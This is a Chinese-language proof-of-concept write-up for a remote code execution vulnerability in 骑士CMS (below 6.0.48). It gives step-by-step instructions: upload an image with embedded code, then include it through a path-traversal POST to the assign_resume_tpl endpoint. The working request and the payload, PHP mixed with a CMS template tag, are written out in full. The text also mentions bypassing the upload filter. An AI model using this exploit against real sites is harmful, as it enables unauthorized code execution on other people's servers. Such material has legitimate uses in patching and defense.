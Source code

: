 # 骑士CMS 骑士CMS assign_resume_tpl 远程代码执行

影响版本：
- 骑士CMS < 6.0.48

POC：

首先在前台注册一个普通用户，然后更新简历：
![](qishi1.png)
完成简历更新后，上传照片：
![](qishi2.png)
在上传图片马后，会生成图片地址：
![](qishi3.png)
复制路径，通过 a 方法调用assign_resume_tpl函数，再通过 POST 的方式提交该路径，即可包含成功
```
http://192.168.159.208/index.php?m=home&a=assign_resume_tpl
POST:
variable=1&tpl=../../../../var/www/html/data/upload/resume_img/2011/13/5fae95e469e05.jpg
```
如下图所示：
![](qishi4.png)
值得一提的是，通过上面的分析我们可以知道，在解析模板的时候，不是解析原生的 PHP 代码，因此如果图片马是纯 PHP 代码是无法利用成功的，必须要包括骑士 CMS 模板文件的标签，我们可以随便打开一个原有模板，然后复制一句话即可，如：/Application/Home/View/tpl_company/default/com_jobs_list.html
```
<qscms:company_show 列表名="info" 企业id="$_GET['id']"/>
```
![](qishi5.png)
因此最终的图片马所要包含的内容应该是：
```
<?php phpinfo(); ?>
<qscms:company_show 列表名="info" 企业id="$_GET['id']"/>
```
另外一点，骑士 CMS 对于图片上传是有过滤的，所以需要绕过技巧，具体可以自行研究，当然你也可以考虑上传 docx 或者其他类型的文件，对于包含的结果是没有影响的

[@panda](https://xz.aliyun.com/t/8520)